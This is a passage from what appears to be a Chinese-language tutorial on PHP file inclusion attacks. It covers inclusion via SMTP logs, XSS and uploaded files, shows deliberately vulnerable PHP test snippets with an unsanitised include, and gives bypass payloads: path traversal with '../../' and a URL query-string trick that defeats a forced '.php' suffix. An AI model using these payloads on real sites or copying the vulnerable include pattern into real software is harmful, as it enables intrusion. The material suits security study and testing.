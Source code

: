 ## 包含SMTP
同样也是通过日志来完成
[具体例子在这](https://shinpachi8.github.io/2017/02/22/lfi/#%E9%80%9A%E8%BF%87SMTP%E6%9D%A5%E5%88%A9%E7%94%A8)

## 包含xss
>(需要allow_url_fopen=On，allow_url_include=On并且防火墙或者白名单不允许访问外网时，先在同站点找一个XSS漏洞，包含这个页面，就可以注入恶意代码了。条件非常极端和特殊- -)

高端姿势，待玩


## 包含上传文件
如果有上传功能的话，美滋滋

<br><br>

# 绕过
正常情况下，一般会对传入参数做一些限制，例如固定文件名，固定前缀，固定后缀，过滤关键符号等等。

## 前缀绕过
测试代码
```
<?php
$file = $_GET["file"];
include "D:/Less-2/test/".$file;
?>
```

### 目录遍历
使用`../../`来返回上一目录，被成为目录遍历(Path Traversal)。
例如 `?file=../../phpinfo/phpinfo.php`

## 后缀绕过
测试代码
```
<?php
$file = $_GET["file"];
include $file.".php";
?>
```

### 利用URL
完整url格式：`protocol :// hostname[:port] / path / [;parameters][?query]#fragment`

#### query(?)
```
[访问参数]   ?file=http://localhost:8088/phpinfo.php?
[拼接后]     ?file=http://localhost:8088/phpinfo.php?.php

利用url中，?后面会被作为参数去解析，文件名称就变为我们想要的
```
